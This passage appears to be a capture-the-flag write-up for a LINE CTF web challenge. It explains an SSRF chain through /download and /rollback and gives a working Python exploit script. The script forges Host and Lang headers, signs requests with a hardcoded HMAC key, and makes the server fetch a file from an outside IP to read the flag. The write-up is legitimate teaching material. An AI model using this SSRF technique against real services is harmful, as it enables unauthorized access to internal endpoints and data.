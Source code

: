 - Scenario 2
1. Using the `ssrf` vulnerability, a request was sent to `/download` to create a random file.
2. Again, using the `ssrf` vulnerability, sending a request to `/rollback` to read the FLAG
3. In this case, the `self.dbHash != dbHash` syntax is bypassed by using the file name.
4. Finally, just read the `Lang` header.

- A note of caution
1. When creating a file, a request is sent using the `requests.get()` function, so when creating a file, a `URL` must be sent to create it.
2. The value of `dbHash` is parsed once more within the `RunRollbackDB()` function, and the value of `e.isalnum()` must be true.
3. When reading the flag, the value of the environment variable `ENV` should not be `local`, so port `5000` should be used instead of port `5050`.

```python
import hmac
import hashlib
import requests

url = 'http://35.200.63.50/apis/'

Key = hashlib.sha512(('ed05a1c7ff6428dcf8d50901b6e78ba3').encode('ascii')).hexdigest()
print('[+] Key  : ' + Key)

def sign(KEY):
    privateKey = b'let\'sbitcorinparty'
    EN = hmac.new( privateKey , KEY.encode('utf-8'), hashlib.sha512 )
    return EN.hexdigest()

def integrityStatus():
    headers = {'Host':'localhost:5000', 'Lang':'/integrityStatus'}
    res = requests.get(url+'coin', headers=headers)
    print('[+] headers in /apis/integreityStatus : ' + res.headers['lang'])

def download():
    headers = {'Host':'localhost:5000', 'Lang':'download?src=http://141.164.52.207/a123', 'Sign':sign('src=http://141.164.52.207/a123')}
    res = requests.get(url+'coin', headers=headers)
    print('[+] headers in /apis/download : ' + res.headers['lang'])

def rollback():
    headers = {'Host':'localhost:5000', 'Lang':'/rollback?dbhash=a123', 'Sign':sign('dbhash=a123'), 'Key':Key}
    res = requests.get(url+'coin', headers=headers)
    print('[+] headers in /apis/rollback : ' + res.headers['lang'])

if __name__ == '__main__':
    integrityStatus()
    download()
    rollback()
```

```plaintext
FLAG : LINECTF{YOUNGCHAYOUNGCHABITCOINADAMYMONEYISBURNING}
```
